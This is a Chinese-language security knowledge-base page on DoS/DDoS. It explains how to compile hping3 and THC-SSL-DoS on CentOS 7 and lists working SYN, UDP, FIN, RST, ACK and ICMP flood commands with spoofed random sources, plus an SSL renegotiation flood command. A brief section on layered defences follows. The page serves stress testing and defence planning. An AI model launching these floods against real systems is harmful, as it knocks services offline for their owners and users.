 ## 概述

## 利用工具
### hping3
[Hping3官网地址](http://www.hping.org/hping3.html)

* Centos7编译安装 ( Kali自带 )

```

# 解决环境依赖
yum install gcc.x86_64 libpcap-devel.x86_64 tcl-devel -y

# 下载
wget http://www.hping.org/hping3-20051105.tar.gz

# 解压并开始编译
tar -xf hping3-20051105.tar.gz && cd hping3-20051105
./configure

# 报错如图
```

![ddos-1](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-1.png)

```
# 修改文件，解决问题，修改如图
vim bytesex.h
```

![ddos-2](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-2.png)

```
# 编译，此时报错如图
make
```

![ddos-3](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-3.png)

```
# 解决问题
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h

# 再次编译
make && make instal

# 安装成功
```

* hping3案例

```
# 测试SYN Flood
hping3 -S --flood -V -p PORT IP
hping3 -c 20000 -d 120 -S -w 64 -p PORT --flood --rand-source IP # 随机源IP

# 测试UDP Flood
hping3 --flood --rand-source --udp -p PORT IP

# 测试TCP FIN Flood
hping3 --flood --rand-source -F -p PORT IP

# 测试TCP RST Flood
hping3 --flood --rand-source -R -p PORT IP

# 测试PUSH和ACK Flood
hping3 --flood --rand-source -PA -p PORT IP

# 测试ICMP和IGMP Flood
hping3 --flood --rand-source -1 -p PORT IP
```

### Thc-SSL-DoS
* Centos7编译安装 ( kali自带 )

```
# 解决环境依赖
yum install gcc.x86_64 openssl-devel.x86_64 -y

# 下载
git clone git://git.kali.org/packages/thc-ssl-dos.git && cd thc-ssl-dos

# 编译安装
./configure

make && make install
```

* thc-ssl-doS使用

```
thc-ssl-dos -l 500 IP PORT --accept
```

## 防御
本质：网络层面的DDoS攻击是无法防御的，能做的就是不断优化自身的网络架构，以及提升网络带宽。

### 链路带宽

### ISP/WAN层
电信云堤产品提供"流量压制"和"近源清洗"：

```
流量压制：分方向的黑洞路由

近源清洗：
```

### CDN/Internet层
CDN本身不是抗DDoS产品，但是针对Web服务而言，CDN可以提供一定的抗D效果。

### DC层
DataCenter这一层的防御属于近目的清洗，在DC出口的地方部署ADS设备。

### OS/APP层
更多的是落地在CC防御中，[参考链接](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/CC.md)
